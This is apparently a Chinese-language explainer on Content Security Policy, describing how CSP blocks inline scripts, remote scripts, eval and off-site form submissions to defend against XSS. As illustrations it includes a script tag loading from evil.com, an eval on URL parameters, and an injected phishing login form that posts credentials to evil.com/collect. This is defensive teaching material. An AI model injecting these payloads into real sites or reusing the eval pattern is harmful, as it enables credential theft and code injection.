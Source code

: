 # 内容安全策略

## 介绍

本文提出了一种将**深度防御**概念集成到web应用程序客户端的方法。通过从服务器返回内容安全策略（CSP）头，浏览器可以感知并能够保护用户免受当前所访问的页面、加载内容的动态调用带来的风险。([D] 可以理解为动态执行JS，DOM变更时的限制策略)

## 背景

XSS（跨站点脚本）、点击劫持和跨站泄漏等漏洞日益增长进而需要**纵深防御**的安全方法。

### 防御XSS

CSP通过以下方式防御XSS攻击：

#### 1. 限制内联脚本

通过阻止页面执行内联脚本，可以防止注入

```html
<script>document.body.innerHTML='defaced'</script>
```

上述代码不会执行

#### 2. 限制远程脚本

通过防止页面从任意服务器加载脚本

```html
<script src="https://evil.com/hacked.js"></script>
```

上述代码不会执行

#### 3. 限制不安全的JavaScript

通过防止页面执行文本中JavaScript的功能，如`eval`，网站将不会受到以下漏洞的影响：

```js
// A Simple Calculator
var op1 = getUrlParameter("op1");
var op2 = getUrlParameter("op2");
var sum = eval(`${op1} + ${op2}`);
console.log(`The sum is: ${sum}`);
```

#### 4. 限制表格提交

通过限制网站上HTML表单提交数据的位置，注入网络钓鱼表单也不会起作用。 

```html
<form method="POST" action="https://evil.com/collect">
<h3>Session expired! Please login again.</h3>
<label>Username</label>
<input type="text" name="username"/>

<label>Password</label>
<input type="password" name="pass"/>

<input type="Submit" value="Login"/>
</form>
```

